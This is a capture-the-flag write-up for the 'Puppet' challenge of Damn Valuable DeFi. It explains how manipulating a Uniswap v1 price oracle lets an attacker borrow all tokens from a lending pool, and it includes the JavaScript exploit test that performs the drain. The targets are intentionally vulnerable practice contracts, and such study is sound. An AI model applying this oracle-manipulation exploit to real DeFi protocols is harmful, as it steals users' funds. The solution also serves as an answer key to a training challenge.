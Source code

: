 # CHALLENGE #8 - Puppet   
There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool. 

## Manipulation of uniswap price
In order to be able to drain the lending pool contract we have to manipulate the amount of eth balance in the uniswap contract so we can borrow a big amount of DVT Tokens
with a very small deposit required.      
We can do that by exchanging a bunch of DVT tokens for 1 eth in order to make the eth balance as close to 0 as possible, so we can drain the lending pool contract.      

## Exploit
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).approve(
            this.uniswapExchange.address,
            ethers.utils.parseEther('1000'),
        );
		await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
            ethers.utils.parseEther('999'),
			ethers.utils.parseEther('1'),
			(await ethers.provider.getBlock('latest')).timestamp * 2,
		);
		await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {value: ethers.utils.parseEther('25')});
    });
```
